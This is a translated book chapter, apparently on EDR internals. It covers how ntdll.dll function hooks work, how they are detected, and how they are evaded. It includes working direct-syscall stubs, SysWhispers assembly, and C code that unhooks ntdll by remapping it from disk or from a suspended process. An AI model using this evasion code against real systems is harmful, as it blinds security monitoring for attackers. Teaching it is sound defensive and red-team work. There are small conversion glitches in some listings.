


# 第二章：2 函数钩取 DLL


在现代终端安全产品的所有组件中，最广泛部署的是负责函数 *钩取*（hooking）或拦截的 DLL。这些 DLL 为防御者提供了大量与代码执行相关的重要信息，如传递给感兴趣函数的参数以及函数返回的值。如今，供应商主要使用这些数据来补充其他更强大的信息来源。尽管如此，函数钩取仍然是 EDR（端点检测与响应）系统的重要组成部分。在本章中，我们将讨论 EDR 系统最常见的函数调用拦截方式，以及作为攻击者的我们可以做些什么来干扰它们。

本章重点讨论 Windows 文件 *ntdll.dll* 中函数的钩取，我们将在稍后介绍其功能，但现代 EDR 系统也钩取其他 Windows 函数。这些其他钩取的实现过程与本章描述的工作流程非常相似。

## 函数钩取的工作原理

要理解终端安全产品如何使用代码钩取，你必须了解用户模式中的代码如何与内核交互。这些代码通常在执行期间利用 Win32 API 来执行主机上的某些功能，例如请求打开另一个进程的句柄。然而，在许多情况下，通过 Win32 提供的功能无法完全在用户模式下完成。一些操作，如内存和对象管理，是由内核负责的。

为了将执行控制转交给内核，x64 系统使用系统调用指令（syscall）。但 Windows 并不在每个需要与内核交互的函数中实现系统调用指令，而是通过 *ntdll.dll* 中的函数提供它们。一个函数只需将所需的参数传递给这个导出的函数；该函数会将控制权传递给内核，然后返回操作结果。例如，图 2-1 展示了用户模式应用程序调用 Win32 API 函数 kernel32!OpenProcess() 时的执行流程。



图 2-1：从用户模式到内核模式的执行流程

为了检测恶意活动，供应商通常会钩取这些 Windows API。例如，EDR 系统检测远程进程注入的一种方式是钩取负责打开另一个进程句柄、分配内存区域、写入分配的内存以及创建远程线程的函数。

在早期版本的 Windows 中，供应商（和恶意软件作者）经常将他们的钩子放置在系统服务调度表（SSDT）上，这是一个在内核中保存指向内核函数的指针的表格，当进行系统调用时会调用这些函数。安全产品会将这些函数指针覆盖为指向它们自己内核模块中用于记录函数调用信息的函数的指针，然后执行目标函数。然后，它们会将返回值传递回源应用程序。

随着 2005 年 Windows XP 的推出，微软决定通过一种名为内核补丁保护（KPP），也称为 PatchGuard，来防止对 SSDT 等重要结构进行打补丁，因此这种技术在现代 64 位 Windows 版本上不可行。这意味着传统的钩子函数必须在用户模式下执行。因为在 *ntdll.dll* 中执行系统调用的函数是观察用户模式下 API 调用的最后一个可能位置，EDR（端点检测与响应）通常会钩住这些函数，以检查它们的调用和执行。某些常见的钩子函数在 表 2-1 中有详细介绍。

表 2-1： ntdll.dll 中常见的钩子函数 ntdll.dll

| 函数名称 | 相关的攻击者技术 |
| --- | --- |
| NtOpenProcessNtAllocateVirtualMemoryNtWriteVirtualMemoryNtCreateThreadEx | 远程过程注入 |
| NtSuspendThreadNtResumeThreadNtQueueApcThread | 通过异步过程调用（APC）进行 Shellcode 注入 |
| NtCreateSectionNtMapViewOfSection NtUnmapViewOfSection | 通过映射内存区段进行 Shellcode 注入 |
| NtLoadDriver | 使用存储在注册表中的配置加载驱动程序 |

通过拦截对这些 API 的调用，EDR 可以观察传递给原始函数的参数，以及返回给调用 API 的代码的值。然后，代理可以检查这些数据，以确定活动是否为恶意行为。例如，要检测远程进程注入，代理可以监视内存区域是否分配了读写执行权限，是否向新分配的内存写入了数据，以及是否使用指向已写入数据的指针创建了线程。

### 使用 Microsoft Detours 实现钩子

尽管大量库使得实现函数钩子变得容易，但大多数库在底层都利用相同的技术。这是因为，从本质上讲，所有的函数钩住都涉及到对无条件跳转(JMP)指令进行修补，将执行流从被钩住的函数重定向到开发者为 EDR 指定的函数。

微软的 Detours 是实现函数钩子最常用的库之一。在后台，Detours 将要钩住的函数中的前几条指令替换为无条件的JMP 指令，该指令会将执行流重定向到开发者定义的函数，这个函数也称为*跳转函数*。这个跳转函数执行开发者指定的操作，例如记录传递给目标函数的参数。然后，它会将执行流传递给另一个函数，通常称为*弹簧板*，该函数执行目标函数并包含原本被覆盖的指令。当目标函数执行完毕后，控制会返回到跳转函数。跳转函数可能会执行额外的处理，比如记录原始函数的返回值或输出，然后将控制返回给原始进程。

图 2-2 展示了正常进程执行与带有跳转函数的执行的对比。实心箭头表示预期的执行流，虚线箭头表示钩住的执行流。



图 2-2：正常和钩住的执行路径

在这个示例中，EDR 选择了挂钩 ntdll!NtCreateFile()，这是一个系统调用，用于创建新的 I/O 设备或打开现有设备的句柄。在正常操作下，这个系统调用会立即过渡到内核，内核模式的对应函数会继续执行。通过 EDR 的挂钩，执行现在会在注入的 DLL 中停顿。这个 edr!HookedNtCreateFile() 函数会代表 ntdll!NtCreateFile() 执行系统调用，收集关于传递给系统调用的参数和操作结果的信息。

在调试器（如 WinDbg）中检查被挂钩的函数，清楚地显示了已经挂钩的函数与未挂钩函数之间的区别。列表 2-1 显示了未挂钩的 kernel32!Sleep() 函数在 WinDbg 中的样子。

```
1:004> **uf KERNEL32!SleepStub**
KERNEL32!SleepStub:
00007ffa`9d6fada0 48ff25695c0600  jmp    qword ptr [KERNEL32!imp_Sleep (00007ffa`9d760a10)

KERNEL32!_imp_Sleep:
00007ffa`9d760a10 d08fcc9cfa7f    ror    byte ptr [rdi+7FFA9CCCh],1
00007ffa`9d760a16 0000            add byte ptr [rax],al
00007ffa`9d760a18 90              nop
00007ffa`9d760a19 f4              hlt
00007ffa`9d760a1a cf              iretd
```

列表 2-1：WinDbg 中未挂钩的 kernel32!SleepStub() 函数

这个函数的反汇编显示了我们预期的执行流程。当调用者调用 kernel32!Sleep() 时，跳转存根 kernel32!SleepStub() 被执行，长跳转（JMP）到 kernel32!_imp_Sleep()，它提供调用者所期望的实际 Sleep() 功能。

注入 DLL 后，利用 Detours 挂钩该函数，函数的样子发生了显著变化，见 列表 2-2。

```
1:005> **uf KERNEL32!SleepStub**
KERNEL32!SleepStub:
00007ffa`9d6fada0 e9d353febf jmp   00007ffa`5d6e0178
00007ffa`9d6fada5 cc         int   3
00007ffa`9d6fada6 cc         int   3
00007ffa`9d6fada7 cc         int   3
00007ffa`9d6fada8 cc         int   3
00007ffa`9d6fada9 cc         int   3
00007ffa`9d6fadaa cc         int   3
00007ffa`9d6fadab cc         int   3

1:005> u 00007ffa`5d6e0178
00007ffa`5d6e0178 ff25f2ffffff  jmp  qword ptr [00007ffa`5d6e0170]
00007ffa`5d6e017e cc            int  3
00007ffa`5d6e017f cc            int  3
00007ffa`5d6e0180 0000N         add  byte ptr [rax],al
00007ffa`5d6e0182 0000          add  byte ptr [rax],al
00007ffa`5d6e0184 0000          add  byte ptr [rax],al
00007ffa`5d6e0186 0000          add  byte ptr [rax],al
00007ffa`5d6e0188 0000          add  byte ptr [rax],al
```

列表 2-2：WinDbg 中被挂钩的 kernel32!Sleep() 函数

与其跳转到 kernel32!_imp_Sleep()，反汇编中包含了一系列 JMP 指令，其中第二个将执行跳转到 trampoline64!TimedSleep()，该函数在 列表 2-3 中显示。

```
0:005> **uf poi(00007ffa`5d6e0170)**
trampoline64!TimedSleep
 10 00007ffa`82881010 48895c2408     mov     qword ptr [rsp+8],rbx
 10 00007ffa`82881015 57             push    rdi
 10 00007ffa`82881016 4883ec20       sub     rsp,20h
 10 00007ffa`8288101a 8bf9           mov     edi,ecx
 10 00007ffa`8288101c 4c8d05b5840000 lea     r8,[trampoline64!'string' (00007ffa`828894d8)]
 10 00007ffa`82881023 33c9           xor     ecx,ecx
 10 00007ffa`82881025 488d15bc840000 lea     rdx,[trampoline64!'string' (00007ffa`828894d8)]
 10 00007ffa`8288102c 41b930000000   mov     r9d,30h
 10 00007ffa`82881032 ff15f8800000   call    qword ptr [trampoline64!_imp_MessageBoxW]
 10 00007ffa`82881038 ff15ca7f0000   call    qword ptr [trampoline64!_imp_GetTickCount]
 10 00007ffa`8288103e 8bcf           mov     ecx,edi
 10 00007ffa`8288103e 8bd8           mov     ebx,eax
 10 00007ffa`82881040 ff15f0a60000   call    qword ptr [trampoline64!TrueSleep]
 10 00007ffa`82881042 ff15ba7f0000   call    qword ptr [trampoline64!_imp_GetTickCount]
 10 00007ffa`82881048 2bc3           sub     eax,ebx
 10 00007ffa`8288104e f00fc105e8a60000  lock xadd dword ptr [trampoline64!dwSlept],eax
 10 00007ffa`82881050 488b5c2430     mov     rbx,qword ptr [rsp+30h]
 10 00007ffa`82881058 4883c420       add     rsp,20h
 10 00007ffa`8288105d 5f             pop     rdi
 10 00007ffa`82881061 c3             ret
```

列表 2-3：kernel32!Sleep() 拦截函数

为了收集关于被挂钩函数执行的度量信息，这个跳板函数通过其内部的 trampoline64!TrueSleep() 包装函数，调用合法的 kernel32!Sleep() 函数来评估它的睡眠时间（以 CPU 时钟周期为单位）。它会在弹出消息中显示时钟计数。

虽然这是一个人为构造的例子，但它展示了每个 EDR 的函数钩子 DLL 的核心功能：代理目标函数的执行并收集有关如何调用它的信息。在这个例子中，我们的 EDR 只是测量被钩程序的睡眠时间。在真实的 EDR 中，重要的函数，如 ntdll!NtWriteVirtualMemory()（用于将代码复制到远程进程），也会以同样的方式被代理，但钩子可能会更关注传递的参数和返回的值。

### 注入 DLL

直到 DLL 被加载到目标进程中，它才会变得有用。某些库提供了通过 API 生成进程并注入 DLL 的能力，但这对于 EDR 来说并不实用，因为它们需要能够随时将 DLL 注入用户生成的进程中。幸运的是，Windows 提供了几种方法来实现这一点。

直到 Windows 8 之前，许多厂商选择使用 AppInit_Dlls 基础设施将他们的 DLL 加载到每个交互式进程中（那些导入 *user32.dll* 的进程）。不幸的是，恶意软件作者经常滥用这一技术来维持持久性和收集信息，这也使得该技术因导致系统性能问题而声名狼藉。微软不再推荐这种 DLL 注入方法，并且从 Windows 8 开始，在启用安全启动的系统上完全禁止了这种方法。

注入函数钩子 DLL 到进程中最常用的技术是利用驱动程序，它可以使用一个名为*内核异步过程调用（KAPC）注入*的内核级特性，将 DLL 插入进程中。当驱动程序被通知到新进程的创建时，它会为 APC 程序和要注入的 DLL 名称分配一部分进程的内存。接下来，它会初始化一个新的 APC 对象，负责将 DLL 加载到进程中，并将其复制到进程的地址空间。最后，它会改变线程的 APC 状态中的标志，以强制执行 APC。当进程恢复执行时，APC 程序将运行，加载 DLL。第五章对这个过程进行了更详细的解释。

## 检测函数钩子

进攻性安全从业人员通常希望识别他们计划使用的函数是否已被钩取。一旦他们识别出已钩取的函数，他们可以列出这些函数，然后限制或完全避免使用它们。这使得对手能够绕过 EDR 的函数钩子 DLL 的检测，因为它的检测功能将永远不会被调用。检测钩取函数的过程非常简单，特别是对于 *ntdll.dll* 导出的本地 API 函数。

*ntdll.dll*中的每个函数都包含一个系统调用存根。构成此存根的指令显示在清单 2-4 中。

```
mov r10, rcx
mov eax, `<syscall_number>`
syscall
retn
```

清单 2-4：系统调用存根汇编指令

您可以通过在 WinDbg 中反汇编一个由*ntdll.dll*导出的函数来查看此存根，如清单 2-5 所示。

```
0:013> **u ntdll!NtAllocateVirtualMemory**
ntdll!NtAllocateVirtualMemory
00007fff`fe90c0b0 4c8bd1           mov r10,rcx
00007fff`fe90c0b5 b818000000       mov eax,18h
00007fff`fe90c0b8 f694259893fe7f01 test byte ptr SharedUserData+0x308,1
00007fff`fe90c0c0 7503             jne ntdll!NtAllocateVirtualMemory+0x15
00007fff`fe90c0c2 0f05             syscall
00007fff`fe90c0c4 c3               ret
00007fff`fe90c0c5 cd2e             int 2Eh
00007fff`fe90c0c7 c3               ret
```

清单 2-5：未经修改的ntdll!NtAllocateVirtualMemory()系统调用存根

在对ntdll!NtAllocateVirtualMemory()的反汇编中，我们看到系统调用存根的基本构建块。该存根将易失性的 RCX 寄存器保存在 R10 寄存器中，然后将与NtAllocateVirtualMemory()相关的系统调用编号（在此版本的 Windows 中为 0x18）移动到 EAX 寄存器。接下来，紧跟在MOV指令后面的TEST和条件跳转（JNE）指令是所有系统调用存根中的检查。当启用 Hypervisor 代码完整性时，受限用户模式会使用它来检查内核模式代码，但不适用于用户模式代码。在此上下文中，您可以安全地忽略它。最后，执行系统调用指令，将控制权转交给内核以处理内存分配。当函数完成并将控制权交还给ntdll!NtAllocateVirtualMemory()时，它只是简单地返回。

由于所有本地 API 的系统调用存根都是相同的，任何对它的修改都表明存在函数钩子。例如，[清单 2-6 展示了被篡改的ntdll!NtAllocateVirtualMemory()函数的系统调用存根。

```
0:013> **u ntdll!NtAllocateVirtualMemory**
ntdll!NtAllocateVirtualMemory
00007fff`fe90c0b0 e95340baff       jmp 00007fff`fe4b0108
00007fff`fe90c0b5 90               nop
00007fff`fe90c0b6 90               nop
00007fff`fe90c0b7 90               nop
00007fff`fe90c0b8 f694259893fe7f01 test byte ptr [SharedUserData+0x308],1
00007fff`fe90c0c0 7503             jne ntdll!NtAllocateVirtualMemory+0x15
00007fff`fe90c0c2 0f05             syscall 00007fff`fe90c0c4 c3               ret
00007fff`fe90c0c5 cd2e             int 2Eh
00007fff`fe90c0c7 c3               ret
```

清单 2-6：被钩住的ntdll!NtAllocateVirtualMemory()函数

请注意，在这里，与其说ntdll!NtAllocateVirtualMemory()的入口点存在系统调用存根，不如说存在一个无条件的JMP指令。EDR 通常使用这种类型的修改将执行流程重定向到它们的钩子 DLL。

因此，为了检测 EDR 所植入的钩子，我们可以简单地检查当前加载到我们进程中的*ntdll.dll*副本中的函数，将它们的入口点指令与未经修改的系统调用存根的预期操作码进行比较。如果我们发现某个我们想要使用的函数上有钩子，我们可以尝试使用下一节中描述的技术来规避它。

## 规避函数钩子

在所有用于终端安全软件的传感器组件中，函数钩子是研究最为深入的规避手段之一。攻击者可以通过多种方法规避函数拦截，这些方法通常归结为以下几种技术：

+   直接调用系统调用来执行未修改的系统调用存根指令

+   重新映射 *ntdll.dll*，以获取未挂钩的函数指针，或覆盖当前映射在进程中的已挂钩的 *ntdll.dll*

+   阻止非微软的 DLL 在进程中加载，以防止 EDR 的函数钩子 DLL 设置其拦截

这绝不是一个详尽无遗的列表。一个不属于上述任何类别的技术示例是向量化异常处理，详见 Peter Winter-Smith 的博客文章《FireWalker：一种通用规避用户空间 EDR 钩子的全新方法》。Winter-Smith 的技术使用了 *向量化异常处理器 (VEH)*，它是结构化异常处理的扩展，允许开发者注册自己的函数来监视并处理给定应用程序中的所有异常。它通过设置处理器的陷阱标志将程序置于单步模式。在每个新的指令上，规避代码会生成单步异常，VEH 首先有权拒绝。VEH 将通过更新指令指针，跳过 EDR 设置的钩子，指向包含原始未修改代码的代码块。

尽管这个技术很有趣，但目前仅适用于 32 位应用程序，并且由于单步执行，它可能会对程序的性能产生不利影响。因此，这种规避方法超出了本章的讨论范围。我们将专注于更广泛适用的技术。

### 直接调用系统调用

迄今为止，最常被滥用的规避技术是直接调用系统调用，以规避在 *ntdll.dll* 函数上设置的钩子。如果我们自己执行系统调用存根的指令，就可以模拟未修改的函数。为了做到这一点，我们的代码必须包含所需函数的签名、包含正确系统调用编号的存根，以及对目标函数的调用。这个调用使用签名和存根传递必要的参数，并以钩子无法检测的方式执行目标函数。清单 2-7 包含了我们需要创建的第一个文件，以执行这一技术。

```
NtAllocateVirtualMemory PROC
    mov r10, rcx
    mov eax, 0018h
    syscall
    ret
NtAllocateVirtualMemory ENDP
```

清单 2-7：NtAllocateVirtualMemory()的汇编指令

我们项目中的第一个文件包含了 ntdll!NtAllocateVirtualMemory() 的重新实现。该函数中的指令将填充 EAX 寄存器以存储系统调用编号。然后，执行系统调用指令。此汇编代码将保存在自己的 *.asm* 文件中，并且可以配置 Visual Studio 使用 Microsoft 宏汇编器（MASM）来编译它，和项目的其余部分一起。

即使我们已经构建了系统调用存根，我们仍然需要一种方式从代码中调用它。列表 2-8 展示了我们如何做到这一点。

```
EXTERN_C NTSTATUS NtAllocateVirtualMemory(
    HANDLE ProcessHandle,
    PVOID BaseAddress,
    ULONG ZeroBits,
    PULONG RegionSize,
    ULONG AllocationType,
    ULONG Protect);
```

列表 2-8：将包含在项目头文件中的 NtAllocateVirtualMemory() 的定义

这个函数定义包含了所有必需的参数及其类型，以及返回类型。它应该位于我们的头文件 *syscall.h* 中，并会包含在我们的 C 源文件中，如 列表 2-9 所示。

```
#include "syscall.h"

void wmain()dg
{
    LPVOID lpAllocationStart = NULL;
  ❶ NtAllocateVirtualMemory(GetCurrentProcess(),
        &lpAllocationStart, 0,
        (PULONG)0x1000,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_READWRITE);
}
```

列表 2-9：在 C 中进行直接系统调用

该文件中的 wmain() 函数调用 NtAllocateVirtualMemory() ❶ 来为当前进程分配一个 0x1000 字节的缓冲区，并且该缓冲区具有读写权限。这个函数没有在微软提供给开发者的头文件中定义，因此我们必须在自己的头文件中定义它。当调用这个函数时，汇编代码将会被执行，而不是调用 *ntdll.dll*，有效地模拟了未被 hook 的 ntdll!NtAllocateVirtualMemory() 行为，而不会触发 EDR 的钩子。

这种技术的主要挑战之一是微软经常更改系统调用编号，因此任何硬编码这些编号的工具可能只能在特定的 Windows 版本上工作。例如，Windows 10 1909 版本中的 ntdll!NtCreateThreadEx() 系统调用编号是 0xBD。在 20H1 版本中，即接下来的发布版本，它的编号是 0xC1。这意味着，针对 1909 版本的工具在更高版本的 Windows 上可能无法使用。

为了帮助解决这一限制，许多开发者依赖外部资源来跟踪这些变化。例如，Google Project Zero 的 Mateusz Jurczyk 维护着每个 Windows 版本的函数及其关联的系统调用编号列表。2019 年 12 月，Jackson Thuraisamy 发布了工具 SysWhispers，它使攻击者能够动态生成系统调用的函数签名和汇编代码，并将其应用于攻击工具中。列表 2-10 展示了 SysWhispers 在针对 Windows 10 1903 到 20H2 版本的 ntdll!NtCreateThreadEx() 函数时生成的汇编代码。

```
NtCreateThreadEx PROC
    mov rax, gs:[60h] ; Load PEB into RAX.
NtCreateThreadEx_Check_X_X_XXXX: ; Check major version.
    cmp dword ptr [rax+118h], 10
    je  NtCreateThreadEx_Check_10_0_XXXX
    jmp NtCreateThreadEx_SystemCall_Unknown
❶ NtCreateThreadEx_Check_10_0_XXXX: ;
    cmp word ptr [rax+120h], 18362
    je  NtCreateThreadEx_SystemCall_10_0_18362
    cmp word ptr [rax+120h], 18363
    je  NtCreateThreadEx_SystemCall_10_0_18363
    cmp word ptr [rax+120h], 19041
    je NtCreateThreadEx_SystemCall_10_0_19041
    cmp word ptr [rax+120h], 19042
    je NtCreateThreadEx_SystemCall_10_0_19042
    jmp NtCreateThreadEx_SystemCall_Unknown
NtCreateThreadEx_SystemCall_10_0_18362: ; Windows 10.0.18362 (1903)
  ❷ mov  eax, 00bdh
    jmp NtCreateThreadEx_Epilogue NtCreateThreadEx_SystemCall_10_0_18363: ; Windows 10.0.18363 (1909)
    mov eax, 00bdh
    jmp NtCreateThreadEx_Epilogue
NtCreateThreadEx_SystemCall_10_0_19041: ; Windows 10.0.19041 (2004)
    mov eax, 00c1h
    jmp NtCreateThreadEx_Epilogue
NtCreateThreadEx_SystemCall_10_0_19042: ; Windows 10.0.19042 (20H2)
    mov eax, 00c1h
    jmp NtCreateThreadEx_Epilogue
NtCreateThreadEx_SystemCall_Unknown: ; Unknown/unsupported version.
    ret
NtCreateThreadEx_Epilogue:
    mov r10, rcx
  ❸ syscall
    ret
NtCreateThreadEx ENDP
```

列表 2-10：SysWhispers 对于ntdll!NtCreateThreadEx()的输出

这段汇编代码从进程环境块❶中提取构建号，然后使用该值将相应的系统调用号移动到 EAX 寄存器❷，在进行系统调用❸之前。虽然这种方法有效，但需要相当大的努力，因为攻击者必须在每次微软发布新版本的 Windows 时，更新数据集中系统调用号。

### 动态解析系统调用号

2020 年 12 月，一位名为@modexpblog 的研究人员在 Twitter 上发布了一篇名为《绕过用户模式钩子和直接调用系统调用用于红队》的博客文章。文章描述了另一种函数钩子规避技术：在运行时动态解析系统调用号，这使得攻击者无需为每个 Windows 版本硬编码调用号。该技术使用以下工作流来创建函数名称和系统调用号的字典：

1.  获取当前进程映射的*ntdll.dll*的句柄。

1.  枚举所有以*Zw*开头的导出函数以识别系统调用。请注意，以*Nt*为前缀的函数（这是更常见的形式）在从用户模式调用时也能正常工作。此处选择使用 Zw 版本似乎是任意的。

1.  存储导出的函数名称及其相关的相对虚拟地址。

1.  按相对虚拟地址对字典进行排序。

1.  在字典中排序后，将函数的系统调用号定义为其索引。

使用这种技术，我们可以在运行时收集系统调用号，将其插入到适当位置的存根中，然后像在静态编码方法中一样调用目标函数。

### 重新映射 ntdll.dll

另一种常用的规避用户模式函数钩子的技术是将新的*ntdll.dll*加载到进程中，用新加载的文件内容覆盖现有的钩取版本，然后调用所需的函数。这个策略有效，因为新加载的*ntdll.dll*不包含之前加载的版本中实现的钩子，因此当它覆盖被污染的版本时，实际上清除了所有由 EDR 放置的钩子。列表 2-11 展示了一个这一过程的简单示例。为简洁起见，部分行已被省略。

```
int wmain()
{
    HMODULE hOldNtdll = NULL;
    MODULEINFO info = {};
    LPVOID lpBaseAddress = NULL;
    HANDLE hNewNtdll = NULL;
    HANDLE hFileMapping = NULL;
    LPVOID lpFileData = NULL;
    PIMAGE_DOS_HEADER pDosHeader = NULL;
    PIMAGE_NT_HEADERS64 pNtHeader = NULL;

    hOldNtdll = GetModuleHandleW(L"ntdll");
    if (!GetModuleInformation(
        GetCurrentProcess(),
        hOldNtdll,
        &info,
        sizeof(MODULEINFO)))

  ❶ lpBaseAddress = info.lpBaseOfDll;

     hNewNtdll = CreateFileW(
         L"C:\\Windows\\System32\\ntdll.dll",
         GENERIC_READ,
         FILE_SHARE_READ,
         NULL,
         OPEN_EXISTING,
         FILE_ATTRIBUTE_NORMAL,
         NULL);

     hFileMapping = CreateFileMappingW(
         hNewNtdll,
         NULL,
         PAGE_READONLY | SEC_IMAGE,
         0, 0, NULL);

  ❷ lpFileData = MapViewOfFile(
         hFileMapping,
         FILE_MAP_READ,
         0, 0, 0);

    pDosHeader = (PIMAGE_DOS_HEADER)lpBaseAddress;
    pNtHeader = (PIMAGE_NT_HEADERS64)((ULONG_PTR)lpBaseAddress + pDosHeader->e_lfanew); for (int i = 0; i < pNtHeader->FileHeader.NumberOfSections; i++)
    {
        PIMAGE_SECTION_HEADER pSection =
            (PIMAGE_SECTION_HEADER)((ULONG_PTR)IMAGE_FIRST_SECTION(pNtHeader) +
            ((ULONG_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));

      ❸ if (!strcmp((PCHAR)pSection->Name, ".text"))
       {
           DWORD dwOldProtection = 0;
         ❹ VirtualProtect(
               (LPVOID)((ULONG_PTR)lpBaseAddress + pSection->VirtualAddress),
               pSection->Misc.VirtualSize,
               PAGE_EXECUTE_READWRITE,
               &dwOldProtection
           );

         ❺ memcpy(
               (LPVOID)((ULONG_PTR)lpBaseAddress + pSection->VirtualAddress),
               (LPVOID)((ULONG_PTR)lpFileData + pSection->VirtualAddress),
               pSection->Misc.VirtualSize
           );

         ❻ VirtualProtect(
               (LPVOID)((ULONG_PTR)lpBaseAddress + pSection->VirtualAddress),
               pSection->Misc.VirtualSize,
               dwOldProtection,
               &dwOldProtection
           );

           break;
        }
    }

    `--snip--`
}
```

列表 2-11：覆盖已钩取的 ntdll.dll 的技术

我们的代码首先获取当前已加载（被钩住的）*ntdll.dll*的基地址❶。然后我们从磁盘读取*ntdll.dll*的内容并将其映射到内存中❷。此时，我们可以解析被钩住的*ntdll.dll*的 PE 头，寻找*.text*部分的地址❸，该部分包含映像中的可执行代码。一旦找到它，我们将修改该内存区域的权限，以便能够向其中写入❹，将“干净”文件中的*.text*部分内容复制进去❺，然后恢复内存保护的更改❻。当这一系列事件完成后，原本由 EDR 放置的钩子应该已经被移除，开发人员可以调用*ntdll.dll*中的任何函数，而不必担心执行会被重定向到 EDR 注入的 DLL。

虽然从磁盘读取*ntdll.dll*看似简单，但它确实带来了潜在的权衡。这是因为将*ntdll.dll*多次加载到单一进程中并非典型行为。防御者可以通过 Sysmon 捕获这一活动，Sysmon 是一款免费的系统监控工具，提供与 EDR 相同的许多遥测收集功能。几乎每个非恶意进程都将进程 GUID 与*ntdll.dll*的加载一一对应。当我在大型企业环境中查询这些属性时，在一个月的时间内，约有 37 百万个进程中，只有大约 0.04%的进程在此期间加载了*ntdll.dll*多于一次。

为了避免基于此异常的检测，您可以选择在挂起状态下生成一个新进程，获取新进程中未修改的*ntdll.dll*的句柄，并将其复制到当前进程中。从那里，您可以像之前展示的那样获取函数指针，或者替换现有的被钩住的*ntdll.dll*，有效地覆盖 EDR 放置的钩子。示例 2-12 演示了这种技术。

```
int wmain() {
    LPVOID pNtdll = nullptr;
    MODULEINFO mi;
    STARTUPINFOW si;
    PROCESS_INFORMATION pi;
    ZeroMemory(&si, sizeof(STARTUPINFOW));
    ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));

    GetModuleInformation(GetCurrentProcess(),
        GetModuleHandleW(L"ntdll.dll"),
      ❶ &mi, sizeof(MODULEINFO));

    PIMAGE_DOS_HEADER hooked_dos = (PIMAGE_DOS_HEADER)mi.lpBaseOfDll;
    PIMAGE_NT_HEADERS hooked_nt =
      ❷ (PIMAGE_NT_HEADERS)((ULONG_PTR)mi.lpBaseOfDll + hooked_dos->e_lfanew);

    CreateProcessW(L"C:\\Windows\\System32\\notepad.exe",
        NULL, NULL, NULL, TRUE, CREATE_SUSPENDED,
      ❸ NULL, NULL, &si, &pi);

  pNtdll = HeapAlloc(GetProcessHeap(), 0, mi.SizeOfImage);
  ReadProcessMemory(pi.hProcess, (LPCVOID)mi.lpBaseOfDll,
      pNtdll, mi.SizeOfImage, nullptr);

  PIMAGE_DOS_HEADER fresh_dos = (PIMAGE_DOS_HEADER)pNtdll;
  PIMAGE_NT_HEADERS fresh_nt =
     4 (PIMAGE_NT_HEADERS)((ULONG_PTR)pNtdll + fresh_dos->e_lfanew);

  for  (WORD i = 0; i < hooked_nt->FileHeader.NumberOfSections; i++) {
        PIMAGE_SECTION_HEADER hooked_section =
            (PIMAGE_SECTION_HEADER)((ULONG_PTR)IMAGE_FIRST_SECTION(hooked_nt) +
                ((ULONG_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));

        if (!strcmp((PCHAR)hooked_section->Name, ".text")){
            DWORD oldProtect = 0;
            LPVOID hooked_text_section = (LPVOID)((ULONG_PTR)mi.lpBaseOfDll +
                (DWORD_PTR)hooked_section->VirtualAddress);

            LPVOID fresh_text_section = (LPVOID)((ULONG_PTR)pNtdll +
                (DWORD_PTR)hooked_section->VirtualAddress); VirtualProtect(hooked_text_section,
                hooked_section->Misc.VirtualSize,
                PAGE_EXECUTE_READWRITE,
                &oldProtect);

            RtlCopyMemory(
                hooked_text_section,
                fresh_text_section,
                hooked_section->Misc.VirtualSize);

            VirtualProtect(hooked_text_section,
                hooked_section->Misc.VirtualSize,
                oldProtect,
                &oldProtect);
        }
    }
    TerminateProcess(pi.hProcess, 0);

    `--snip--`

    return 0;
}
```

示例 2-12：在挂起进程中重新映射 ntdll.dll

这个最小示例首先打开当前映射到我们进程中的*ntdll.dll*副本的句柄❶，获取其基地址并解析其 PE 头❷。接下来，它创建一个挂起的进程❸，并解析该进程中*ntdll.dll*副本的 PE 头❹，这个副本尚未被 EDR 钩住。该函数的其余流程与前一个示例完全相同，当它完成时，钩住的*ntdll.dll*应该已经恢复到干净状态。

与所有事情一样，这里也存在一个权衡，因为我们新的挂起进程创建了另一个被检测的机会，比如通过钩住的ntdll!NtCreateProcessEx()、驱动程序或 ETW 提供者。根据我的经验，很少见到程序出于合法原因创建一个临时挂起的进程。

## 结论

函数钩取是终端安全产品监控其他进程执行流的一种原始机制。尽管它为 EDR 提供了非常有用的信息，但由于其常见实现中的固有弱点，它非常容易被绕过。正因如此，现今大多数成熟的 EDR 将其视为辅助遥测源，而更依赖于更为稳健的传感器。
